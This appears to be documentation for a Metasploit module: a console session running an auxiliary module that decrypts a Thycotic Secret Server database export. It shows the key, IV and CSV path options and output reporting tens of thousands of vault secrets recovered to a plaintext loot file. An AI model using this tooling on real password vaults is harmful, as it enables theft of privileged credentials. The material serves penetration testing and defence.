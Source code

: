 ```
Module options (auxiliary/gather/thycotic_secretserver_offline_decrypt):

   Name     Current Setting                                                   Required  Description
   ----     ---------------                                                   --------  -----------
   CSVFILE  /tmp/secretserver.csv                                             yes       Path to database dump CSV file
   IP       10.1.0.113                                                        no        (Optional) IPv4 address to attach to loot
   IV       2c2df1a68dbc29adc66041bd6e6e4ad3                                  yes       SecretServer MEK IV (hex)
   KEY      fc35d1abcade1c180c699e10fbb3efeb                                  yes       SecretServer 128-bit AES MEK value (hex)
   KEY256   e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109  yes       SecretServer 256-bit AES MEK value (hex)


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Perform decryption of SecretServer database export file


msf6 auxiliary(gather/thycotic_secretserver_offline_decrypt) > dump

[+] Secret Server Encryption Configuration:
[+]        KEY: fc35d1abcade1c180c699e10fbb3efeb
[+]     KEY256: e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
[+]         IV: 2c2df1a68dbc29adc66041bd6e6e4ad3
[*] Read database export CSV ...
[+] 47842 rows loaded, 19915 unique SecretIDs
[*] Process Secret Server DB ...
[!] SecretID 4092 field SFTP Site contains invalid UTF-8 and will be stored as a Base64 string in the output file
[!] SecretID 11097 field Notes contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 11319 field Notes failed to decrypt
[!] 47842 rows processed (1 rows failed)
[*] 47841 rows recovered: 34479 plaintext, 13336 decrypted (2699 blank)
[*] 45142 rows written (2699 blank rows withheld)
[+] 19836 unique SecretID records recovered
[+] Decrypted Secret Server Database Dump: /root/.msf4/loot/20220823082010_default_10.1.0.113_ss_dec_645710.csv
[*] Auxiliary module execution completed
```